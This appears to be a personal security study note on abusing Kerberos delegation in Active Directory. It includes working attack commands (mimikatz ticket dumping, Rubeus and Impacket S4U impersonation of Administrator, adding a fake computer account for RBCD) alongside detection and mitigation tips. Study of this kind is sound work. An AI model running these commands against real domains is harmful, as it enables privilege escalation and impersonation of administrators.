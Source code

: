 ```yaml
---
tags:
  - knowledge
  - AD
  - attack
date: 2023-09-1
---
```

- Delegation - allows service to impersonate a user to access resources on behalf.
- Legitimate feature in Windows.
# Types of Delegation

- [[Unconstrained Delegation]]
	- services impersonate a user to any service once user authenticates to it.
	- [[Kerberos]] [[Ticket Granting Tickets (TGTs)|TGT]] cached on delegated host.
	- dangerous if domain admin logs into a box with UCD.
- [[Constrained Delegation]]
	- service limited to impersonating users only to specific SPNs.
	- abusable if you control delegating account and allowed SPNs are sensitive.
- [[Resource Based Delegation]]
	- configured on target service, not delegating one.
	- abusable if:
		- attacker can add a computer object to the domain.
		- attacker can set `msDS-AllowedToActOnBehalfOfOtherIdentity` on the target machine
# Exploitation Techniques

- `Unconstrained Delegation`:
	- steal TGT from memory (on system with unconstrained flag):
		- `mimikatz sekurlsa::tickets`
- `Constrained Delegation`:
	- impersonate any user to a listed SPN:
		- `Rubeus s4u /user:svc /rc4:<hash> /impersonateuser:Administrator /msdsspn:cifs/dc.corp.local /ptt`
		- `getST.py -spn cifs/dc.corp.local -impersonate Administrator -hashes :<NTLM> corp.local/svcuser`
- `RBCD`:
	- adding a fake computer:
		- `addcomputer.py -computer-name FAKEPC -computer-pass P@ssw0rd! corp.local/user`
	- set delegation rights on target:
		- `setrbcd.py -delegate-from FAKEPC$ -delegate-to TARGET-HOST$ -dc-ip <DC_IP>`
	- request TGT as target user via S4U chain ([[Certipy]] or [[Rubeus]]):
		- `Rubeus s4u /user:FAKEPC$ /rc4:<hash> /impersonateuser:Administrator /msdsspn:cifs/dc /ptt`
# When To Abuse This

- You control a user, service or computer with:
	- `TrustedForDelegation` (unconstrained)
	- `msDS-AllowedToDelegate` (constrained)
	- `msSD-AllowedToActOnBehalfOfOtherIdentity` (RBCD)
- You added a computer object and can link it via RBCD.
- A Domain Admin logs into a system with UCD.
# Detection

- `Event ID 4769` - Kerberos service ticket requests (watch for S4U).
- Audit:
	- `Get-ADComputer -Filter * -Properties TrustedForDelegation, msDS-AllowedToDelegateTo, msDS-AllowedToActOnBehalfOfOtherIdentity`
# Mitigation

- Avoid UCD completely
- Use RBCD only with strict scoping.
- Monitor and restrict:
	- computer object creation
	- delegation rights modification
- Rotate passwords or keys for abused accounts.

